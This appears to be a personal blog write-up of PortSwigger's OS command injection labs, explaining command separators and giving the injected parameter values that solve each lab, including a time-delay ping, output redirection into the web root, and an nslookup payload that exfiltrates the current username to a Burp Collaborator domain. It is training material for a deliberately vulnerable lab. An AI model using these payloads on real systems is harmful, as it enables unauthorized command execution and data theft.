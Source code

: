```yaml
---
date: 2021-06-02 23:48:05
layout: post
title: OS command injection
subtitle: PortSwigger Writeup.
description: >-
  in this blog i've explained how to solve OS command injection labs in PortSwigger
image: https://raw.githubusercontent.com/H3X0S3/h3x0s3.github.io/95eae24777b2a914837b0fe2d178f4eb7ed623a8/assets/os-command-injection.svg
optimized_image: https://raw.githubusercontent.com/H3X0S3/h3x0s3.github.io/95eae24777b2a914837b0fe2d178f4eb7ed623a8/assets/os-command-injection.svg
category: PortSwigger
tags:
  - PortSwigger
  - injection
author: Mahmoud S. Atia
paginate: true
---
```


# Note

I'll explain what OS command injection is, describe how vulnerabilities can be detected and exploited, spell out some useful commands and techniques for different operating systems, and summarize how to prevent OS command injection.


![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/05f7097712c45b8cc81f537cbe922e30e32f824d/assets/os-command-injection.svg)

# What is os command injection ?

OS command injection (also known as shell injection) is a web security vulnerability that allows an attacker to execute an arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data. Very often, an attacker can leverage an OS command injection vulnerability to compromise other parts of the hosting infrastructure, exploiting trust relationships to pivot the attack to other systems within the organization.

# What kind of damage can OS Command injections cause?

    • Infiltrate your local network
    • Access sensitive data
    • Upload or download certain data or malware
    • Create custom scripts
    • Run those scripts or other applications as administrators
    • Edit user security levels

# Detection 

By enumeration, you know the type of system that is running. These command separators work on both Windows and Unix-based systems:

`&` 
`&& `
`| `
`|| `

# The following command separators work only on Unix-based systems:

`;`
`Newline (0x0a or \n)`

> On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command:

`$( injected command )`
Grave Accent

- The ${IFS} means Internal Field Separator which is used for splitting words after expansion and to split lines into words. Its default value is 
> space tab newline
  


# PortSwigger OS command injection Labs

----

# Lab: OS command injection, simple case

We should determine the name of the current user so we should execute the whoami command.

we will inject `|whoami` after the storeId=

`storeId=2|whoami`

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/05f7097712c45b8cc81f537cbe922e30e32f824d/assets/1-2-os.png)

# Lab: Blind OS command injection with time delays

I fined input in feedback page so let's test it.

![Swiss Alps](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/2-1-os.png)

Is is a blind os command injection so to exploit the blind OS command injection vulnerability to cause a 10 second delay `[-c 15 =number of icmp packets ]` it’ll cause delay for 15 s.
we will inject the payload after email=x
`email=H3X0S3@protonmail.com||ping+-c+15+127.0.0.1||`

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/2-2-os.png)

# Lab: Blind OS command injection with output redirection
We need to create a file that contains the output of whoami command and read it.

![Swiss Alps](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/3-1-os.png)

we will inject our payload on email=x
`email=H3X0S3@protonmail.com||whoami>/var/www/images/H3X0S3.txt||`

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/3-os.png)

then open any image and change the name of it to H3X0S3.txt you will get peter-LQMcuE
and the lab is solved.

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/3-2-os.png)

# Lab: Blind OS command injection with out-of-band interaction

This lab contains a blind OS command injection vulnerability in the feedback function. 
As in the previous lab Blind OS command injection with output redirection.
So, We need to receive dns interaction so we'll inject our payload with bup collaborator
we'll inject in email=x
payload is
`email=H3X0S3@protonmail.com||nslookup+x.burpcollaborator.net||`

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/4-os.png)

# Lab: Blind OS command injection with out-of-band data exfiltration

We need to know the name of the current user. So, we will inject our payload on email id 
email=||our-payload||
so we need to know the name of the current user and we will Receive the response on our Burp collaborator client
so the payload is
`email=H3X0S3@protonmail.com||nsalookup+``whoami`
`g9qq8gdxsp4vj9t56twthbv8vz1ppe.burpcollaborator.net||`
click Poll now

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/5-os.png)

You will see some DNS interactions then compare between the

`g9qq8gdxsp4vj9t56twthbv8vz1ppe.burpcollaborator.net`

and the description

`peter-PLQZsKg9qq8gdxsp4vj9t56twthbv8vz1ppe.burpcollaborator.net`

> **`Compare between`**
 
`g9qq8gdxsp4vj9t56twthbv8vz1ppe.burpcollaborator.net`
 > **`And`**

`peter-PLQZsKg9qq8gdxsp4vj9t56twthbv8vz1ppe.burpcollaborator.net`

the name of the current user is peter-pIQZsK

 ![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/5-2-os.png)
 
 
 ![](https://i.giphy.com/media/3oFzmqN1xHwaEXGl7q/giphy.webp)
